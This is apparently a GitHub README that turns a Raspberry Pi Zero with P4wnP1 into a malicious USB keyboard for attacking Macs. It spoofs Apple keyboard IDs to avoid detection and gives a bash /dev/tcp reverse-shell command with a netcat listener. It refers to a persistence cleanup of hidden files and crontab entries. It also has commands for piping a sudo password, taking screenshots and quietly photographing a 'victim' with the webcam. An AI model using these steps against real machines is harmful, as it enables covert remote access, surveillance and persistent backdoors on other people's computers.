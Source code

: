 # Ducky Raspberry Pi Zero for Mac

There are some threads about P4wnP1 ducky not running on Mac but here is an introduction about setting up P4wnP1 so your pi zero can attack Mac.

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.
```
username: pi
password: raspberry
```
4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).
```shell
sudo raspi-config
```
6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)
```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```
7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.
```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```
8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](./payloads/hid_keyboard_hello_world.txt).
```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```
9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".
```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```
10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.
```shell
sudo shutdown -h now
```
11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.
```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.
```shell
nc -l -p 8080 -vvv
```
2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)
```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```
3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads/](./payloads/) there is a reverse shell ducky script example. Here is the clean up script if you use my example.
```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

## What Now

* Rick roll prank
```shell
osascript -e 'set volume 7' && open https://www.youtube.com/watch?v=dQw4w9WgXcQ&frags=pl%2Cwn
```

* Accessing sudo privilege
```shell
echo "password" | sudo -S ls
```

* Take a screenshot
```shell
screencapture ~/a.jpg
```

* Take a photo with Mac's webcam
```shell
# since brew does not require sudo privilege, if victim has brew, this works
brew install imagesnap
osascript -e 'set volume 0'  # mute
imagesnap ~/a.png
```

## Author and Contributors

* **[Brian Sung](https://github.com/ohbriansung)** 
* Jordan Aldujaili
* Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
2. [P4wnP1](https://github.com/mame82/P4wnP1/)
3. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)